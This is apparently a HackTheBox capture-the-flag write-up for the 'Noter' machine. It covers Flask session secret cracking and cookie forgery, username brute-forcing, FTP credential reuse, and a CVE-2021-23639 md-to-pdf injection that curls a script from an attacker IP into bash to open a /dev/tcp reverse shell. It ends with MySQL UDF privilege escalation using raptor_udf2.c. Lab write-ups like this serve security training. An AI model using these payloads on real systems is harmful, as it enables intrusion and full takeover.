







# Noter - HackTheBox - Writeup
Linux, 30 Base Points, Medium



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```21```, ```22```, and ```5000```.

***User***: Found the JWT secret key using ```flask-unsign```, Sign a new JWT token of ```blue``` user, and Found the FTP password of ```blue``` user from the notes, According to the password policy we found the FTP password of ```ftp_admin``` user, From the application backup file we can see the application uses ```md-to-pdf```, Use ```CVE-2021-23639``` to get RCE.

***Root***: Found the ```root``` MySQL credentials on the application backup files, Using the ```root``` credentials we load a new UDF function to get RCE as ```root```.


## Noter Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ nmap -sV -sC -oA nmap/Noter 10.10.11.160
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-23 16:21 IDT
Nmap scan report for 10.10.11.160
Host is up (0.076s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
|_http-title: Noter
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```

By observing port ```5000``` we get the following web page:



Let's [Register](http://10.10.11.160:5000/register):



By observing the HTTP requests we can the following:
```HTTP
GET /dashboard HTTP/1.1
Host: 10.10.11.160:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.160:5000/login
DNT: 1
Connection: close
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZXZ5YXRhcjkifQ.YxHxAw.6QO3VwzaxBraMQOLxGyNDF5oWOw
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

We can see the JWT on the ```session``` cookie (which was created by the Server: Werkzeug/2.0.2 Python/3.8.10).

By decoding the JWT token we can see:
```json
{
  "logged_in": true,
  "username": "evyatar9"
}
```

And another encrypted payload.

We can "unsign" the token using [flask-unsign](https://pypi.org/project/flask-unsign/) to get the key:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ flask-unsign --unsign --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZXZ5YXRhcjkifQ.YxHxAw.6QO3VwzaxBraMQOLxGyNDF5oWOw 
[*] Session decodes to: {'logged_in': True, 'username': 'evyatar9'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 18048 attempts2XqPyDHaOR4K
'secret123'
```

And we get the secret key ```secret123```.

Let's sign a new cookie and change the username from ```evyatar9``` to ```admin```:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ flask-unsign --sign --cookie "{'logged_in': True, 'username' :'admin'}" --secret secret123
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YxHyvA.jU-60WGFPLX2isnQ2PhRj6rnRYw
```

By using this cookie we get an Unauthorized error, We need to find a valid user.

We need to find a valid username, we can brute force valid users.

Let's use the following script to make a brute force on the users using [names.txt list](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt):
```python
import requests
import os
import json

def generate_token(name):
    name = name.strip()
    print(f"Trying with {name}")
    cookie = {'logged_in': 'True', 'username' :f'{name}'}
    token = os.popen("flask-unsign --sign --cookie \"" + json.dumps(cookie).replace('"',"'") + "\" --secret secret123").read().strip()
    cookies = {
        'session': token,
    }
    response = requests.get("http://10.10.11.160:5000/dashboard",cookies=cookies)
    if 'Welcome' in response.text:
        print(f"Found user {name} with valid JWT token {token}")
        return True
    return False    
    

with open('names.txt','r') as names_file:
    names = names_file.readlines()
    for name in names:
        if generate_token(name):
            break
```

Running:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ python3 usernames_brutefoce.py 
...
Trying with blue
Found user blue with valid JWT token eyJsb2dnZWRfaW4iOiJUcnVlIiwidXNlcm5hbWUiOiJibHVlIn0.YxIC9w.kpTkZSHgX508W8TFoo67ea95tP0
```

And we found username ```blue``` with JWT token ```eyJsb2dnZWRfaW4iOiJUcnVlIiwidXNlcm5hbWUiOiJibHVlIn0.YxIC9w.kpTkZSHgX508W8TFoo67ea95tP0```, Let's use it:



By clicking on [Notes](http://10.10.11.160:5000/notes) we can see the following [Note](http://10.10.11.160:5000/note/1/):



We can see the FTP credentials ```blue:blue@Noter!```, Let's use it:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:user): blue
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
226 Directory send OK.

```

By reading the ```policy.pdf``` file we can see the following text:
```console
...
4. Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)
```

Meaning that if we have the user name ```ftp_admin``` (We from that from the note) the password should be ```ftp_admin@Noter!```.

Let's use it:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:user): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
ftp> 
```

Let's get application backup files.

By observing the backup file we can see on ```app_backup_1635803546.zip``` on ```app.py``` file the following ```root``` credentials to MySQL:
```console
...
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
...
```

By observing the file ```app.py``` from ```app_backup_1638395546.zip``` we can see the application uses ```md-to-pdf.js``` to convert to pdf:
```python
...
# Export local
@app.route('/export_note_local/<string:id>', methods=['GET'])
@is_logged_in
def export_note_local(id):
    if check_VIP(session['username']):

        cur = mysql.connection.cursor()

        result = cur.execute("SELECT * FROM notes WHERE id = %s and author = %s", (id,session['username']))

        if result > 0:
            note = cur.fetchone()

            rand_int = random.randint(1,10000)
            command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
            subprocess.run(command, shell=True, executable="/bin/bash")
        
            return send_file(attachment_dir + str(rand_int) +'.pdf', as_attachment=True)

        else:
            return render_template('dashboard.html')
    else:
        abort(403)
```

We can use [CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) to get RCE.

We need to create two files, ```evyatar9.md``` file and ```rshell.sh```:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ cat evyatar9.md
---js\n((require("child_process")).execSync("curl http://10.10.14.14:5000/rshell.sh | bash"))\n---RCE
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ cat rshell.sh
/bin/bash -l > /dev/tcp/10.10.14.14/4444 0<&1 2>&1
```

Let's create a local HTTP server (port ```80``` and ```5000```) and listen on port ```4444```:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ..

```

```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for evyatar: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ python3 -m http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...

```

Now, Let's choose [Export from Cloud](http://10.10.11.160:5000/export_note) with the following URL [http://10.10.14.14/evyatar9.md](http://10.10.14.14/evyatar9.md):



And we get a reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
10.10.11.160: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.160] 34114
python3 -c 'import pty; pty.spawn("/bin/bash")'
svc@noter:~/app/web$

```

Browsing to ```/home/svc``` to get the user flag:
```console
svc@noter:~$ cat user.txt
cat user.txt
fef1e34ae35ddec0005ead88557fd21a
```

And we get the user flag ```fef1e34ae35ddec0005ead88557fd21a```

### Root

Let's upgrade the shell:
```console
svc@noter:~/app/web$ 
Ctrl + Z
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ stty raw -echo
┌─[evyatar@parrot]─[/hackthebox/Noter]
└──╼ $ fg
```

We have the MySQL credentials of ```root``` user, We can use the following [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library) to get RCE.

First, Let's upload the file ```raptor_udf2.c``` (from [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)):
```c
svc@noter:~$ curl http://10.10.14.2/raptor_udf2.c > raptor_udf2.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   920  100   920    0     0   5714      0 --:--:-- --:--:-- --:--:--  5679
svc@noter:~$ cat raptor_udf2.c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}
```

Compile it:
```console
svc@noter:~$ gcc -g -c raptor_udf2.c
svc@noter:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to MySQL using the ```root``` credentials to load the UDF by running the following commands:
```console
use mysql;
create table evev(line blob);
insert into evev values(load_file('/home/svc/raptor_udf2.so'));
select * from evev into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system("cat /root/root.txt > /tmp/root.txt ; chmod 777 /tmp/root.txt");
exit
```

And we get the ```root``` flag:
```console
svc@noter:~$ cat /tmp/root.txt
471942d64adfff5d04d3911094ff7f23
```